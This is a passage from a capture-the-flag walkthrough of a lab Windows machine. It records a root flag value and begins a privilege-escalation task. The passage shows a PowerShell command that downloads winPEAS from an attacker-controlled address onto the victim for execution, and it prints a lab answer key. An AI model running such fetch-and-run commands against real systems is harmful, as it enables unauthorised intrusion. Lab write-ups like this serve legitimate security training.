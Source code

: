 More sniffing around reveals the root flag at "C:\Users\Administrator\Desktop\root.txt"

7e13d97f05f7ceb9881a3eb3d78d3e72

![rootflag](screenshots/rootflag.png)

## Task 5 - Privilege Escalation Without Metasploit

>Now you know how to pull files from your machine to the victims machine, we can pull winPEAS.bat to the system using the same method! (You can find winPEAS here)
>
>WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!
>
>Tip: You can execute these files by using .\filename.exe
>
>Using winPeas, what was the Original Install time? (This is date and time)

Upload "winPEAS.bat" to "C:\Windows\Temp":

powershell -c "Invoke-WebRequest -Uri 'http://10.4.73.48:8000/winPEASx64.exe' -OutFile 'C:\Windows\Temp\winPEASx64.exe'"

Confirm that winPEAS is there:
